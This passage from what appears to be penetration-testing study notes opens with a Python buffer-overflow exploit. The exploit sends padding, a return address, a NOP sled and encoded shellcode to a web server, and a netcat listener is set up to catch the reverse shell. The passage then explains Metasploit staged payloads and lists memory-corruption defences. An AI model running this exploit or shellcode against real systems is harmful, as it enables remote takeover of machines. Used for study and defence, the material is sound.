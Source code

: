 "\x5c\x78\xa6\x9d\xf7\x83\x21\x62\xaf\x8b\xb5\x0a\xb2\x8b\xb4"
"\x71\x3b\x6d\xdc\x95\x6a\x26\x49\x0f\x37\xbc\xe8\xd0\xed\xb9"
"\x2b\x5a\x02\x3e\xe5\xab\x6f\x2c\x92\x5b\x3a\x0e\x35\x63\x90"
"\x26\xd9\xf6\x7f\xb6\x94\xea\xd7\xe1\xf1\xdd\x21\x67\xec\x44"
"\x98\x95\xed\x11\xe3\x1d\x2a\xe2\xea\x9c\xbf\x5e\xc9\x8e\x79"
"\x5e\x55\xfa\xd5\x09\x03\x54\x90\xe3\xe5\x0e\x4a\x5f\xac\xc6"
"\x0b\x93\x6f\x90\x13\xfe\x19\x7c\xa5\x57\x5c\x83\x0a\x30\x68"
"\xfc\x76\xa0\x97\xd7\x32\xd0\xdd\x75\x12\x79\xb8\xec\x26\xe4"
"\x3b\xdb\x65\x11\xb8\xe9\x15\xe6\xa0\x98\x10\xa2\x66\x71\x69"
"\xbb\x02\x75\xde\xbc\x06"
)
buffer = "A" * 1787 + "\x7E\x6E\xEF\x77" + "\x90" * 8 + shellcode
try:
    print "\nSending evil buffer..."
    s.connect(('192.168.0.9', 80))
    s.send('GET ' + buffer + '\r\n\r\n')
    print s.recv(1024)
    print "\nDone!."
except:
    print "Could not connect"</code></pre>
                    <li><span>We run:</span></li>
                <pre><code>$ nc -lvp 443</code></pre>
                    <li><span>We should get a reverse shell, we can debug the previous memory address to identify potential problems.</span></li>
                </ul>
        </fieldset>
        <fieldset class='box'>
            <a name='MsfPayloads'></a>
            <legend>MsfPayloads</legend>
                <ul>
                    <li><span>staged payload is send in two parts to the victim. The first part is a small primary payload that do that the victim machine connect to the attacker machine and later the attack machine sends the second part of the payload. It is useful when the buffer has not a big length. (eg. linux/x64/shell/reverse_tcp)</span></li>
                    <li><span>Non-staged (linux/x64/shell_reverse_tcp), larger but full shell.</span></li>
                </ul>
        </fieldset>
        <fieldset class='box'>
            <a name='Countermeasures'></a>
            <legend>Countermeasures</legend>
                <ul>
                    <li><span><strong>Code signing</strong> executable page of memory is signed, and instructions executed only if the signature is correct.</span></li>
                    <li><span><strong>SEHOP</strong> checks the validity of a thread’s exception handler list before allowing any to be called.</span></li>
                    <li><span><strong>Pointer encoding</strong> Function pointers can be encoded (using XOR or other means) within Microsoft Visual Studio and GCC. If encoded pointers are overwritten without applying the correct XOR operation first, they cause a program crash.</span></li>
                    <li><span><strong>Stack canaries</strong> Compilers including Microsoft Visual Studio, GCC, and LLVM Clang place canaries on the stack before important values (e.g., saved eip and function pointers on the stack). The value of the canary is checked before the function returns; if it has been modified, the program crashes.</span></li>
                    <li><span><strong>Heap protection</strong> Sanity checking within heap management code. These improvements protect against double free and heap overflows resulting in control structures being overwritten.</span></li>
                    <li><span><strong>Relocation read-only (RELRO)</strong> The GOT, destructors, and constructors entries within the data segment can be protected through instructing the GCC linker to resolve all dynamically linked functions at runtime, and marking the entries read-only.</span></li>
                    <li><span><strong>Format string protection</strong> Most compilers provide protection against format string attacks.</span></li>
                    <li><span><strong>Data execution prevention (DEP)</strong> is used to mark writable areas of memory, including the stack and the heap, as non-executable. CPU can set a bit NX (no-excutable) to portions of the stack.</span></li>